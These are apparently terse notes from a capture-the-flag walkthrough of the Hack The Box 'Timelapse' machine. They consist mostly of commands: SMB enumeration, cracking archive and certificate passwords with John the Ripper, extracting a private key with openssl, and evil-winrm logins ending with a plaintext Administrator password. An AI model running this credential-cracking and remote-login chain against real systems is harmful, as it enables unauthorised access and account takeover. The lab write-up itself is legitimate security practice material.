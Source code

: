 ```
smbmap.py -H 10.10.11.152 -u "" -p ""
[+] IP: 10.10.11.152:445        Name: timelapse.htb
```

```
smbclient -L //10.10.11.152/ -N
smbclient //10.10.11.152/Shares -N
```

```sh
john winrm_backup.john --wordlist=/usr/share/wordlists/rockyou.txt
supremelegacy
john legacyy_dev_auth.john --wordlist=/usr/share/wordlists/rockyou.txt
thuglegacy       (legacyy_dev_auth.pfx)
```

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificate.pem 
```

```
evil-winrm -S -k $PWD/priv-key.pem -c $PWD/certificate.pem  -i 10.10.11.152
```

```
whoami /user
whoami /priv
net user
```

```
)@m}21CB/36a+b!57}FVXRz]
```

```
evil-winrm -u 'Administrator' -p ')@m}21CB/36a+b!57}FVXRz]' -i 10.10.11.152  -S
```
## Reference
- https://tecadmin.net/extract-private-key-and-certificate-files-from-pfx-file/
- https://aidenpearce369.github.io/htb/offsec/timelapse/